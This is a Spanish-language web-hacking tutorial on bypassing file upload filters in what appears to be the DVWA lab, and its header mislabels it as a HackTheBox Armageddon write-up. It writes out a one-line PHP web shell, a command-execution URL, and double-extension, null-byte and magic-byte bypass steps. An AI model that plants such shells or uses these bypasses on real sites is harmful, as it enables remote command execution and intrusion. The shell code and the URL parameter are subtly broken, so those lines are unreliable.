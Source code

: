 ```yaml
---
title: "File Upload"
layout: single
excerpt: Este es el "Write-Up" de la máquina **Armageddon** de la plataforma HackTheBox, maquina easy pero nunca esta demas compartir informacion, espero y les guste...  
header:
show_date: true
classes: wide
header:
  teaser: "/assets/images/File_Upload/File_upload.png"
  teaser_home_page: true
  icon: "/assets/images/File_Upload/File_upload.png"
categories:
  - Web Hacking
tags:
  - upload
  - hackweb


---
```


 ![](/assets/images/File_Upload/File_upload.png)  

Esta funcionalidad es esencial en casi todas las aplicaciones web permitiendo al usuario subir una foto, video, archivos de audio, CV , etc ...

Como siempre la subida de archivos es un riesgo notable en cualquier aplicacion web sino esta protegido correctamente esta funcionalidad.

Un hacker que tenga la hablidadad de hacer un bypass a esta funcioanlidad de la web podria  conseguir **Ejecución Remota de Comandos** `RCE`.

### 1.1 File Upload - básico

---

Creamos la shell 

```bash
echo '<?php system($_GET["cmd"]);?' >> test1.php
```

![](/assets/images/File_Upload/1.png)  

- Click `upload`

![](/assets/images/File_Upload/f2.png)  

- Accedemos a la url donde se guardo la shell

```http
http://localhost/DVWA/hackable/uploads/test1.php?c=pwd
```

![](/assets/images/File_Upload/f3.png)  

### 1.2 File Upload - extensión doble

---



Algunas aplicaciones web como medida de seguridad certifican la extension del archivo a subir. En otras palabras la subida de archivos está restringida a determinadas extensiones, no obstante,  en este caso veremos como añadiéndole una doble extensión hacemos un bypass.

```bash
mv test1.php tes1.php.png
```

![](/assets/images/File_Upload/f5.png)  

Interceptamos la petición con `Burpsuite` 

![](/assets/images/File_Upload/f6.png) 

- [x] Bypassed!

![](/assets/images/File_Upload/f2.png)

### 1.3 File Upload - content-type

---

Este tipo de restricción se encuentra en la cabecera http `Content-type` .Requiriendo manipular la petición.

![](/assets/images/File_Upload/f7.png)

### 1.4 File Upload - caracter hexadecimal nulo

---
Uno de los enfoques interesantes para cargar documentos permiciosos es utilizar caracteres de `bytes nulos` codificados en URL. El acceso no aprobado a los documentos del sistema podría obtenerse a través de dicha infusión de un byte no válido que da como resultado un `espacio en blanco` en la interpretación ASCII. La incrustación de un byte no válido conducirá a una aplicación web que utilice bibliotecas C / C ++ al verificar el nombre del registro o su contenido. Intentará engañar como si fuera el final de la cadena, y debería dejar de leer detenidamente en esta progresión.

Antes de cargar nuestro archivo PHP, hagamos un pequeño cambio y cambiemos el nombre.

```bash
mv  test1.php  test1.phpA.jpeg
```

- Interceptamos la peticion y la mandamos al `Decoder`

   ![](/assets/images/File_Upload/f9.png)

- El caracter `A`, el cual es el # 41 en `HEX` lo usaremos para identificarlo posteriormente en la petición.

El propósito es identificar rápidamente este caracter en el campo hexadecimal y cambiarlo al caracter nulo antes de enviar la solicitud. 

![](/assets/images/File_Upload/f8.png)

### 1.5 File Upload - números mágicos

---

Usualmente algunas web suelen validar la cabecera hexadecimal  de la imagen.Lógicamente sabiando esto se podría lograr un bypass.

| Extensiones | Cabeceras Hexadecimales |
| ----------- | :---------------------- |
| PNG         | 89 50 4E 47             |
| JPEG        | FF D8 FF E0 / FE        |
| PDF         | 25 50 44 46             |
| DOC         | D0 CF 11 E0             |

- Para cambiar las cabeceras hexadecimales utilizaremos el binario `hexeditor` 

 - Cambiando el `primer octeto` de bytes les quedaría así

   ![](/assets/images/File_Upload/f10.png)
   
   
